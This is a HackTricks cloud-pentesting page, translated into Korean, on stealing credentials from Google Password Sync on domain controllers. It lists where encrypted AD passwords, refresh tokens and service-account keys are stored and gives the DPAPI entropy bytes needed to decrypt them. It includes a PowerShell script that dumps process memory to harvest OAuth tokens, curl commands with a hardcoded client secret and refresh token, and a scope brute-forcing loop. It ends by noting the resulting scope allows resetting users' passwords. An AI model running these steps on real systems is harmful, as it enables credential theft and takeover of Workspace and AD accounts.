 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

이것은 Google이 **AD와 Workspace 간의 사용자 비밀번호를 동기화하기 위해 제공하는 바이너리 및 서비스**입니다. 사용자가 AD에서 비밀번호를 변경할 때마다 Google에 설정됩니다.

이것은 `C:\Program Files\Google\Password Sync`에 설치되며, 여기에서 구성할 수 있는 바이너리 `PasswordSync.exe`와 계속 실행될 서비스 `password_sync_service.exe`를 찾을 수 있습니다.

### GPS - Configuration

이 바이너리(및 서비스)를 구성하려면 **Workspace에서 Super Admin 주체에 대한 액세스를 제공해야 합니다**:

* Google을 통해 **OAuth**로 로그인한 후 **레지스트리에 토큰을 저장합니다(암호화됨)**
* GUI가 있는 도메인 컨트롤러에서만 사용 가능
* **Workspace 사용자 관리** 권한이 있는 **GCP의 서비스 계정 자격 증명(json 파일)** 제공
* 이러한 자격 증명은 만료되지 않으므로 악용될 수 있는 매우 나쁜 아이디어입니다.
* SA가 GCP에서 손상될 수 있으므로 Workspace에 대한 SA 액세스를 제공하는 것은 매우 나쁜 아이디어입니다.
* Google은 GUI가 없는 도메인 제어를 위해 이를 요구합니다.
* 이러한 자격 증명도 레지스트리에 저장됩니다.

AD와 관련하여 현재 **응용 프로그램 컨텍스트, 익명 또는 특정 자격 증명**을 사용하도록 지시할 수 있습니다. 자격 증명 옵션이 선택되면 **사용자 이름**은 **디스크**의 파일에 저장되고 **비밀번호**는 **암호화되어** **레지스트리**에 저장됩니다.

### GPS - Dumping password and token from disk

{% hint style="success" %}
Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GPS**, get information about the configuration and **even decrypt the password and token**.
{% endhint %}

파일 **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`**에서 구성의 일부를 찾을 수 있으며, 여기에는 구성된 AD의 **`baseDN`**과 사용 중인 자격 증명의 **`username`**이 포함됩니다.

레지스트리 **`HKLM\Software\Google\Google Apps Password Sync`**에서 **암호화된 새로 고침 토큰**과 AD 사용자(있는 경우)의 **암호화된 비밀번호**를 찾을 수 있습니다. 또한, 토큰 대신 **SA 자격 증명**이 사용되는 경우, 해당 레지스트리 주소에서 암호화된 자격 증명을 찾을 수 있습니다. 이 레지스트리 내의 **값**은 **관리자**만 **액세스**할 수 있습니다.

암호화된 **비밀번호**(있는 경우)는 **`ADPassword`** 키 내에 있으며, **`CryptProtectData`** API를 사용하여 암호화됩니다. 이를 해독하려면 비밀번호 동기화를 구성한 사용자와 동일해야 하며, **`CryptUnprotectData`**를 사용할 때 이 **엔트로피**를 사용해야 합니다: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

암호화된 토큰(있는 경우)은 **`AuthToken`** 키 내에 있으며, **`CryptProtectData`** API를 사용하여 암호화됩니다. 이를 해독하려면 비밀번호 동기화를 구성한 사용자와 동일해야 하며, **`CryptUnprotectData`**를 사용할 때 이 **엔트로피**를 사용해야 합니다: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
또한, **`0123456789abcdefghijklmnopqrstv`** 사전을 사용하여 base32hex로 인코딩됩니다.

엔트로피 값은 도구를 사용하여 발견되었습니다. 이 도구는 **`CryptUnprotectData`** 및 **`CryptProtectData`** 호출을 모니터링하도록 구성되었으며, 그런 다음 `PasswordSync.exe`를 실행하고 모니터링하는 데 사용되었습니다. 이 도구는 구성된 비밀번호와 인증 토큰을 처음에 해독하고, 두 경우 모두 **사용된 엔트로피 값**을 **표시합니다**:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

이 API 호출의 입력 또는 출력에서 **해독된** 값을 볼 수 있는 것도 주목할 만합니다(Winpeas가 작동을 중지하는 경우를 대비하여).

비밀번호 동기화가 **SA 자격 증명으로 구성된 경우**, 레지스트리 **`HKLM\Software\Google\Google Apps Password Sync`** 내의 키에 저장됩니다.

### GPS - Dumping tokens from memory

GCPW와 마찬가지로 `PasswordSync.exe` 및 `password_sync_service.exe` 프로세스의 메모리를 덤프할 수 있으며, 이미 생성된 경우 새로 고침 및 액세스 토큰을 찾을 수 있습니다.\
AD 구성 자격 증명도 찾을 수 있을 것입니다.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - 리프레시 토큰으로 액세스 토큰 생성

리프레시 토큰을 사용하여 다음 명령에 지정된 클라이언트 ID와 클라이언트 비밀을 사용하여 액세스 토큰을 생성할 수 있습니다:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
리프레시 토큰이 있더라도, 액세스 토큰을 생성하는 애플리케이션에서 지원하는 **스코프만 요청할 수 있기 때문에** 액세스 토큰에 대한 스코프를 요청하는 것은 불가능합니다.

또한, 리프레시 토큰은 모든 애플리케이션에서 유효하지 않습니다.
{% endhint %}

기본적으로 GPS는 사용자가 모든 가능한 OAuth 스코프에 접근할 수 없으므로, 다음 스크립트를 사용하여 `refresh_token`으로 `access_token`을 생성하는 데 사용할 수 있는 스코프를 찾을 수 있습니다:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

그리고 이것은 제가 작성 당시 받은 출력입니다:
```
https://www.googleapis.com/auth/admin.directory.user
```
어떤 범위를 지정하지 않으면 얻는 것과 동일합니다.

{% hint style="danger" %}
이 범위로 **기존 사용자의 비밀번호를 수정하여 권한을 상승시킬 수 있습니다**.
{% endhint %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
